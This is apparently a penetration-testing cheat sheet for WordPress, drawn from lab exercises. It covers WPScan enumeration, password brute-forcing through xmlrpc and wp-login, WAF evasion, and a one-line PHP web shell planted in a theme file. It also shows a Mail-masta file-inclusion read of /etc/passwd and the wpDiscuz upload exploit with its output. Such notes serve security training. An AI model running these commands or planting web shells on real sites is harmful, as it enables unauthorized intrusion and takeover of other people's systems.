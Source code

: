 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WordPress

## General Information

{% hint style="info" %}
[WordPress Vulnerability Statistics](https://wpscan.com/statistics/)
{% endhint %}

<details>

<summary>Directories</summary>

`/wp-admin` -> `/wp-login.php`

`/wp-content/plugins/`

`/wp-content/themes/`

</details>

<details>

<summary>Wordlists</summary>

[wordpress.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wordpress.fuzz.txt)

[wp-plugins.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt)

[wp-themes.fuzz.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/CMS/wp-themes.fuzz.txt)

</details>

<details>

<summary>Roles &#x26; Permissions</summary>

Administrator -> King :crown:

Editor -> Post management + publish (for all users)

Author -> Post management + publish (owned posts)

Contributor -> Post management (owned posts)

Subscriber -> Browse posts, manage its own profile

</details>

## Automated Enumeration (WPScan)

{% hint style="info" %}
For vulnerability scanning get a token from [WPScan](https://wpscan.com/).
{% endhint %}

[WPScan](https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation) is a free, Ruby-based WordPress security scanner that performs black-box testing to identify vulnerabilities in WordPress core, plugins, themes, and user configurations.

{% tabs %}
{% tab title="Update DB" %}
```bash
wpscan --update
```
{% endtab %}

{% tab title="Vulnerable Components" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN>
```
{% endtab %}

{% tab title="Brute-force" %}
WPScan uses 2 kinds of BFA:

1. [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) → uses WP's API to BF (`xmlrpc.php`) (faster)
2. wp-login → attempts to BF `wp-login.php`&#x20;

{% hint style="warning" %}
`wp-login.php` is the standard login form that accepts one login attempt per request. `xmlrpc.php` allows login via API calls and can bundle many attempts in one request, making brute-force faster.

\
Even if `wpscan` outputs that XML-RPC is enabled, login-related methods may be blocked by plugins or server settings, so attacks through it can fail while `wp-login` attacks still work.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Enumerating users and brute-forcing
sudo wpscan --url example.com -e u --passwords password.lst

# Targeted brute-forcing using xmlrpc
sudo wpscan --password-attack xmlrpc -t 20 --url http://example.com -U roger -P /usr/share/wordlists/rockyou
```
{% endcode %}
{% endtab %}

{% tab title="WAF Evasion" %}
{% code overflow="wrap" %}
```bash
sudo wpscan --url example.com --enumerate --api-token <TOKEN> --random-user-agent
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Manual Enumeration

{% tabs %}
{% tab title="Version" %}
```bash
curl -s example.com | grep '<meta name="generator"'
```
{% endtab %}

{% tab title="Themes" %}
```bash
curl -s example.com | grep themes
```
{% endtab %}

{% tab title="Plugins" %}
```bash
curl -s example.com | grep plugins
```
{% endtab %}

{% tab title="Plugin Version" %}
Plugin version requires Directory listing to be enabled:

{% code overflow="wrap" %}
```bash
curl -s example.com/wp-content/plugins/mail-masta/readme.txt | grep "Stable tag:"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## RCE

### Browser

A simple PHP web shell (obfuscate the file name).&#x20;

```php
<?php system($_GET['c']); ?>
```

Modify a less-used file of an inactive theme for avoiding breaking the site.

<figure><img src="../../../.gitbook/assets/http_80_ir_webshell_process.png" alt=""><figcaption><p>Step for RCE after gaining admin access.</p></figcaption></figure>

Interact with the shell via CLI.

```bash
curl http://example.com/wp-content/themes/twentytwenty/404.php?c=id
```

### Metasploit

```bash
# launch metasploit
msfconsole -q
# use module (make sure to `set VHOST`)
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
```

## Vulnerabilities

### Mail-masta

No longer supported:

* [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438)
* [Local File Inclusion](https://www.exploit-db.com/exploits/50226).

{% code overflow="wrap" %}
```php
<?php 

include($_GET['pl']); # no validation/sanitization
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```
{% endcode %}

{% code overflow="wrap" %}
```shell
$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...snip...
```
{% endcode %}

### wpDiscuz

`wpDiscuz` is a plugin aimed to enhance commenting on page posts. Based on the version number (`7.0.4`), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution via a file upload bypass.

`wpDiscuz` is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution. The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post:

{% code overflow="wrap" %}
```bash
$ python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
--------------------------------------------------------------- 

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1 

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot; 

> id

[x] Failed to execute PHP code...
```
{% endcode %}

The exploit as written may fail, but we can use curl to interact with the uploaded webshell:

{% code overflow="wrap" %}
```bash
$ curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id

GIF689a;

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{% endcode %}
